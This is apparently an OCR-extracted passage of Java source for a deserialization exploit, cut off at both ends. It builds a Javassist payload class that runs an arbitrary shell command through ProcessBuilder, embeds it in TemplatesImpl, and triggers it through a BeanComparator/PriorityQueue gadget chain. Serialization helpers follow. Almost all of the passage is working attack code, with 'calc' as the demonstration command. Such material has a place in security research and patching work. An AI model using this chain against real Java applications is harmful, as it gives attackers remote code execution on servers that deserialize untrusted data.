```java
                "                        ? new String[]{\"cmd.exe\", \"/c\", tc} : new String[]{\"/bin/sh\", \"-c\", tc};" +
                "            new ProcessBuilder(cmd).start();" +
                "            } catch (Exception e) {\n" +
                "                e.getStackTrace();\n" +
                "            }\n" +
                "        }", clazz));

        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    }

    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{genPayload("calc").toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue(2, comparator);

        queue.add(1);
        queue.add(1);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        byte[] se = Tools.serialize(queue);
        Tools.deserialize(se);
    }
}
```

```java
package org.example.util;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class Tools {
    public Tools() {
    }

    public static byte[] base64Decode(String base64) {
        Base64.Decoder decoder = Base64.getDecoder();
        return decoder.decode(base64);
    }

    public static String base64Encode(byte[] bytes) {
        Base64.Encoder encoder = Base64.getEncoder();
        return encoder.encodeToString(bytes);
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(final byte[] serialized) throws Exception {
```
